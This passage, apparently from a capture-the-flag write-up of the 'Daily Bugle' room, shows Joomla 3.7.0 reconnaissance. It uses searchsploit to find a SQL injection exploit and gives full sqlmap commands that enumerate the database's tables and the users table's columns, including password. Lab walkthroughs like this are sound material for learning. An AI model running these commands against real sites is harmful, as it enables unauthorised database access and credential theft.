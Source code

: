 Visiting the `/administrator` path, we're taken to the following page:
![](/assets/img/writeup_assets/daily-bugle/login-page.png)

As per the [Joomla Documentation](https://docs.joomla.org/Administrator_(User)):
> The default Super Users is admin and is installed with every Joomla! site.

Yet another quick search through searchsploit gives us a nice exploit for SQLi on joomla 3.7.0:
```shell-session
$ searchsploit Joomla 3.7.0
$ searchsploit -p php/webapps/42033.txt
...
$ cp /usr/share/exploitdb/exploits/php/webapps/42033.txt .
```

Reading through this exploit, we find that it gives us a nice `sqlmap` command:
```shell-session
$ sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

By adding the `--tables` and `-D joomla` flags, we can specify that we wanna try and understand the tables of the database first, and what kind of database to attack.
```shell-session
$ sqlmap -u "http://TARGET_IP/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs --tables -p list[fullordering] -D joomla
```

This gives us a total of 72 tables to work with, most are not very useful, however, one of the ones we can use is the `__users` table:
```shell-session
$ sqlmap -u "http://TARGET_IP/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs --columns -p list[fullordering] -D joomla -T '#__users'

...
do you want to use common column existence check? [y/N/q] y
...
[00:08:34] [INFO] retrieved: id
[00:08:34] [INFO] retrieved: name
[00:08:35] [INFO] retrieved: username
[00:08:39] [INFO] retrieved: email
[00:09:20] [INFO] retrieved: password
```